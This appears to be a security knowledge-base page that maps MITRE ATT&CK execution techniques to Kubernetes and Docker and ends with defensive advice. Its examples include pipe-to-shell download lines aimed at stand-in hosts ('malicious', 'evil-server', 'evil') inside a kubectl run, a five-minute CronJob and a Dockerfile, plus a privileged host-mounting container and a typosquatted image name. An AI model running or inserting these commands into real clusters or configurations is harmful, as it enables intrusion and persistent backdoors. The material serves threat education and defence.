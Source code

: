 # Execution

## **Execution Techniques in Containerized Environments**

In Kubernetes and other containerized ecosystems, adversaries use Execution techniques to run code within the environment. This can involve legitimate container administration tools, injecting malicious workloads, or abusing cluster scheduling systems. Execution typically follows initial access and enables further actions like privilege escalation, persistence, and lateral movement.

***

### Container Administration Command **T1609**

**Description**:\
Use of legitimate container administrative tools (e.g., `docker`, `kubectl`, Kubernetes APIs) to execute commands inside containers or manage workloads.

**Container Example**:

* After gaining access to a compromised container or host, an attacker uses:

```bash
docker exec -it <container-id> /bin/bash
kubectl exec -it <pod-name> -- /bin/sh
```

* Abuse kubelet or CRI endpoints (`/exec`, `/run`) to spawn new processes without using `kubectl`.
* Download and execute malicious payloads inside live containers.

**Result**:\
Direct command execution within containers or pods, bypassing normal deployment workflows.

### Deploy Container **T1610**&#x20;

**Description**:\
Launch a new container to execute attacker-specified code, often with malicious configurations like mounted volumes, privileged flags, or custom environment variables.

**Container Example**:

* Use Kubernetes to run a malicious container:

```bash
kubectl run evil-pod --image=alpine --command -- /bin/sh -c "curl http://malicious/payload.sh | sh"
```

* Abuse Docker CLI to start a privileged container:

```bash
docker run -v /:/mnt --privileged attacker/image
```

* Inject malicious deployments using Helm charts, Argo CD pipelines, or compromised GitOps flows.

**Result**:\
Adversary-controlled containers are deployed in the environment, often disguised as legitimate workloads.

***

### Scheduled Task/Job T1053

**Description**

Adversaries may abuse scheduled task mechanisms to execute malicious code automatically at predefined times or intervals.\
In containerized environments, this often involves creating Kubernetes CronJobs or other orchestration-level scheduled tasks.

Using scheduled jobs allows attackers to persist after reboot, periodically beacon to C2 servers, pull new payloads, or maintain access without continuous interaction.\
Scheduling execution provides automation, covert operation windows, and resilience against remediation efforts.

#### **Result**

* Persistent execution of attacker-controlled code, surviving pod crashes or node reboots.
* Stealthier C2 communication or data exfiltration by using short-lived, periodic connections.
* Automated reinstallation of malware or backdoors after defender cleanup efforts.

### Container Orchestration Job **T1053.007**&#x20;

**Description**:\
Use Kubernetes-native scheduled workloads (CronJobs) to trigger recurring or delayed execution of malicious code.

**Container Example**:

* Deploy a Kubernetes CronJob to regularly pull down C2 commands or persistence scripts:

```yaml
yamlCopyEditapiVersion: batch/v1
kind: CronJob
metadata:
  name: recon-job
spec:
  schedule: "*/5 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: recon
            image: busybox
            command: ["/bin/sh", "-c", "curl http://evil-server/recon.sh | sh"]
          restartPolicy: OnFailure
```

**Result**:\
Persistent, scheduled execution even after pod or cluster restarts — ideal for maintaining backdoors or C2 communications.

***

### User Execution T1204.003

Adversaries rely on social engineering or human error to trick users or automated systems into executing malicious code.

In containerized environments, User Execution often involves:

* Tricking DevOps teams into pulling or running malicious container images.
* Injecting backdoored images into trusted registries.
* Abusing automation (e.g., CI/CD pipelines) to deploy compromised containers without immediate human review.

#### Malicious Image **T1204.003**&#x20;

**Description**:\
Trick users, developers, or automated systems into executing malicious container images through typosquatting, supply chain poisoning, or compromised registries.

**Container Example**:

* Upload a backdoored image to a public registry, disguised as a legitimate one:

```
Legit: nginx:latest
Evil: nqinx:latest
```

* Inject payloads into a popular base image (e.g., Python, Node.js) inside the `ENTRYPOINT`:

```dockerfile
FROM python:3.10
RUN curl http://evil/download.sh | sh
CMD ["python3"]
```

* Target build pipelines (e.g., GitHub Actions, GitLab CI) that pull unvalidated container images from external sources.

**Result**:\
Execution of attacker-controlled containers inside trusted environments, often without immediate detection.

***

### **Execution Techniques in Containerized Environments Summary**

| Technique/Subtechnique           | MITRE ID  | Container Example                                        |
| -------------------------------- | --------- | -------------------------------------------------------- |
| Container Administration Command | T1609     | Execute commands using `docker`, `kubectl`, kubelet APIs |
| Deploy Container                 | T1610     | Launch malicious containers via Kubernetes or Docker     |
| Container Orchestration Job      | T1053.007 | Create CronJobs for scheduled backdoor execution         |
| Malicious Image                  | T1204.003 | Trick users into running malicious container images      |

***

### Final Summary

Defending against Execution in containerized environments focuses on:

* **Restricting administrative command access** (e.g., securing kubelet, Docker APIs)
* **Validating container images and sources** (secure registries, signed images)
* **Auditing and restricting Kubernetes CronJob usage**
* **Monitoring for unexpected container deployments and executions**
